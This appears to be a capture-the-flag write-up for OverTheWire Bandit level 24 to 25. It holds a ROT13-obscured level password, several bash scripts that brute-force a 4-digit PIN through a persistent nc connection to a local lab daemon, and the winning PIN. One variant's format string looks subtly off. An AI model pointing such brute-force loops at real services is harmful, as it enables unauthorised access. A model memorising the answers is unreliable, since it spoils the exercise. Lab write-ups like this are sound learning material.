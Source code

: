# BANDIT 24 -> 25

## Obfuscated password (ROT13): 

	vPv86ggG4XFAr1nezXvjoDAzO3LWC3d4

## OBJECTIVE

	"A daemon is listening on port 30002 and will give you the password for bandit25 if given the password for bandit24 and a secret numeric 4-digit pincode. There is no way to retrieve the pincode except by going through all of the 10000 combinations, called brute-forcing.

	You do not need to create new connections each time"


## PURPOSE


## SOLUTIONS

	~BEST~
	coproc ncproc { nc localhost 30002; }; read -r <&"${ncproc[0]}"; for i in {0000..9999}; do echo "[previous password[ $i" >&"${ncproc[1]}"; read -r r <&"${ncproc[0]}"; [[ $r != Wrong* ]] && echo "[+] $i $r" && break; done


	~SECOND BEST~

	coproc ncproc { nc localhost 30002; } && IFS= read -r banner <&"${ncproc[0]}" && for pin in $(seq -w 0000 9999); do echo "[previous password] $pin" >&"${ncproc[1]}"; IFS= read -r res <&"${ncproc[0]}"; echo "$pin → $res"; [[ $res != "Wrong!"* && -n $res ]] && echo "[+] $pin" && break; done; exec {ncproc[0]}>&-; exec {ncproc[1]}>&-


	~OR~

	#!/bin/bash
	
	password="[previous password]"
	
	# Start nc once
	coproc ncproc { nc localhost 30002; }
	
	# Read and show banner
	IFS= read -r banner <&"${ncproc[0]}"
	echo "[Banner] $banner"
	
	# Bruteforce loop
	for pin in $(seq -w 0000 9999); do
	  attempt="${password} ${pin}"   # <-- space between password and PIN!
	  echo "$attempt" >&"${ncproc[1]}"
	  IFS= read -r response <&"${ncproc[0]}"
	
	  echo "$pin → $response" | tee -a seq25.txt
	
	  if [[ "$response" != "Wrong! Please enter the correct current password and pincode. Try again." && -n "$response" ]]; then
	    echo "[+] Success with PIN $pin"
	    break
	  fi
	done
	
	# Clean up
	exec {ncproc[0]}>&-
	exec {ncproc[1]}>&-

	~OR~

	seq -f "[previous password]0000 %04g" 2200 2300 | nc localhost 30002 | tee -a seq25.txt
	cat seq25.txt | uniq -u


	~END~

	echo "[previous password] 2219" | nc localhost 30002
